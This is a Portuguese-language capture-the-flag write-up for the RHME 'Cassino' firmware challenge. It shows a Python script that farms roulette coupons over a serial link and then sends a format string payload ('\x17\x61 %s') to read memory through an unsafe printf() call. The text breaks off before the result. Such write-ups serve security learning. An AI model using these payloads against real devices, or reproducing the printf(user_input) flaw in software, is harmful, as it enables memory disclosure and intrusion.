

# RHME - Cassino WriteUp

---

Neste desafio chamado **Cassino**, interagimos com um sistema que simula um jogo de apostas. O objetivo é obter **cupons gratuitos** jogando na roleta, e depois usar esses cupons para acessar o **menu de bebidas**.

A vulnerabilidade explorada aqui é uma clássica **format string vulnerability**, permitindo leitura arbitrária de memória ao abusar do uso incorreto da função `printf()` no firmware.

---

## Exploração

### 1. Ganhar cupons gratuitos

O desafio exige que o jogador tenha cupons para acessar o menu vulnerável. Usamos o seguinte loop para "farmar" cupons automaticamente:

```python
while not tickets:
    trash = s.xfer("4\\n")         # volta ao menu principal
    trash = s.xfer("1\\n")         # escolhe a opção 1: Spin
    trash = s.xfer("S\\n")         # gira a roleta
    trash = s.xfer("\\r\\n")        # confirma
    if int(trash.split("left: ")[1][0]):
        tickets = 1               # se ganhou cupom, continua

```

Esse trecho simula a interação repetida com o cassino até ganhar um cupom.

---

### 2. Entrar no menu vulnerável

Após conseguir um cupom, acessamos o menu de bebidas:

```python
trash = s.xfer("3\\n")

```

Esse menu só está disponível para quem tem cupons e é justamente onde a vulnerabilidade ocorre.

---

### 3. Exploração com format string

No prompt para digitar o nome da bebida, inserimos:

```python
print s.xfer("\\x17\\x61 %s\\n")

```

Esse input contém:

- `\\x17\\x61` → um **endereço de memória (0x6117)**
- `%s` → comando de leitura de string via ponteiro

Se o `printf()` for chamado de forma insegura, como:

```c
printf(user_input); // e não printf("%s", user_input);

```

o `%s` será interpretado, e o valor em `0x6117` será tratado como ponteiro para string.

Com sorte (ou por observação), esse endereço conterá dados relevantes, como ponteiros para a **flag**.

---

## Script completo

```python
from rhme_serial import *

s = rhme_serial()
tickets = 0

while not tickets:
    trash = s.xfer("4\\n")
    trash = s.xfer("1\\n")
    trash = s.xfer("S\\n")
    trash = s.xfer("\\r\\n")
    if int(trash.split("left: ")[1][0]):
        tickets = 1

trash = s.xfer("3\\n")
print s.xfer("\\x17\\x61 %s\\n")
s.close()

```

---

## Resultado

Ao executar o script…



---